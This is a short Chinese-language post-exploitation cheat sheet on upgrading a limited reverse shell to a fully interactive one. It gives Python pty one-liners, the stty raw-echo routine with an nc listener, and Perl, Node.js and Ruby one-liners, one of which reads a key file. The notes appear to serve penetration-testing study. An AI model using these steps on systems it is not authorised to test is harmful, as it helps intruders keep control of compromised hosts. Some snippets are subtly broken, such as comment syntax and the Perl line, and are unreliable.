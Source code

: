 ```yaml
---
description: 适用于将功能有限的非交互式shell升级成完全交互式shell
---
```


# ✔️ 升级Shell

## Python

```python
// 先在目标系统中查找是否已安装Python，并确认其版本
which python
// 根据实际情况使用：
python -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

有时即使利用Python升级后的shell，也可能无法完整使用各种命令行的功能，此时可尝试一下方法：

```bash
// 查看Kali本机的终端信息
echo $TERM
// 记录行数和列数信息就行
stty -a
// 分别记录下以上输出之后，将终端设为原始模式，并关闭回显
stty raw -echo
// 重新监听端口，此时格式有点奇怪，但是不要紧
nc -lvnp 5432
reset
// 按实际情况输入'echo $TERM'的信息（例）：
xterm-256color
xterm
// 按实际情况输入行数和列数信息（例）：
stty rows 56 columns 213
```

## Perl

```bash
perl -e '/bin/bash'
```



## Node.js

```bash
node -e 'var exec=require("child_process").exec;exec("cat ~/key.txt",function(error,stdOut,stdErr){console.log(stdOut);});'
```



## Ruby

```bash
ruby -e 'require "irb";IRB.start(__FILE__)'
```

